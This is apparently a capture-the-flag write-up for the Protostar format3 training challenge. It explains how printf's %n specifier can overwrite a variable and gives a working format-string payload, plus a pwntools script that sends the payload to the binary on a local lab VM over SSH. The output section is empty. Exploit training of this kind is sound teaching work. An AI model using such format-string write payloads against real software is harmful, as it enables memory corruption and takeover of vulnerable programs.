 
There are 3 way to overwrite the value of "target" and we are going to see all of them.

# solution 1: overwrite 4 bytes in ones (approach with %n)

Thanks to the format specifier %n  we can write the number of characters which is printed before %n at the address we are pointing to. 
(With %n we overwrite can overwrite 4 bytes)

ex: 

```c

int a=0;
printf("ABCD%n", &a);  // output ABCD
printf("%d", a);  // output 4 , 4 bytes are written before the format specifier : 'ABCD'

```

We want to write  0x01025544 in "target". If we use the format specifier %n we will need 
to write  16930116 characters. (0x01025544 in decimal)

Remember our payload will be this form : 
CCCC%12$nAAAA

We replace CCCC with the address of target :

080496f4 => in  little endian format \xf4\x96\x04\x08

\xf4\x96\x04\x08%12$nAAAA   with this payload we have currently write 4 bytes (address of "target")

, so we need to write 16930116-4 = 16930112 

To write this amount of characters we can use the format specifier %16930112x wich will add a 
padding to the value found on the stack.

ex : 
```c
printf("%5x", 1) //  output:    1 
                            <---> 4 space 

//length(space) + length(1) = 5  
```


### script

```python
target_address = 0x080496f4

def overwrite4_bytes():
    r = ssh(host="192.168.160.128" ,password="user" , user="user")
    payload = p32(target_address) +  b"%16930112x%12$nAAAA" 
    format3 = r.run(["/opt/protostar/bin/format3"])
    format3.sendline(payload)
    print(format3.recvuntil(b"target"))
    format3.close()


```
output:
